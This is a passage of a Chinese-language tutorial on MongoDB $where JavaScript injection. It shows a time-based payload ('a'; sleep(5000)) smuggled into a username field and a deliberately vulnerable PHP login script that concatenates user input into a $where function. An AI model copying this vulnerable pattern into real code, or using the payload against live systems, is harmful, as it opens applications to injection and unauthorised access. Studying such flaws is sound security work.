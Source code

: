 如下实例：

```sql
> db.users.find({ $where: "function(){return(this.username == 'whoami')}" })
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
> 
```

由于使用了 `$where` 关键字，其后面的 JavaScript 将会被执行并返回 "whoami"，然后将查询出 username 为 whoami 的数据。

某些易受攻击的 PHP 应用程序在构建 MongoDB 查询时可能会直接插入未经过处理的用户输入，例如从变量中 `$userData` 获取查询条件：

```sql
db.users.find({ $where: "function(){return(this.username == $userData)}" })
```

然后，攻击者可能会注入一种恶意的字符串如 `'a'; sleep(5000)` ，此时 MongoDB 执行的查询语句为：

```sql
db.users.find({ $where: "function(){return(this.username == 'a'; sleep(5000))}" })
```

如果此时服务器有 5 秒钟的延迟则说明注入成功。

下面我们编写 index.php 进行测试：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];
$function = "
function() { 
    var username = '".$username."';
    var password = '".$password."';
    if(username == 'admin' && password == '123456'){
        return true;
    }else{
        return false;
    }
}";
$query = new MongoDB\Driver\Query(array(
    '$where' => $function
));
$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count>0) {
    foreach ($result as $user) {
        $user=(array)$user;
        echo '====Login Success====<br>';
        echo 'username: '.$user['username']."<br>";
        echo 'password: '.$user['password']."<br>";
    }
}
else{
    echo 'Login Failed';
}
?>
```
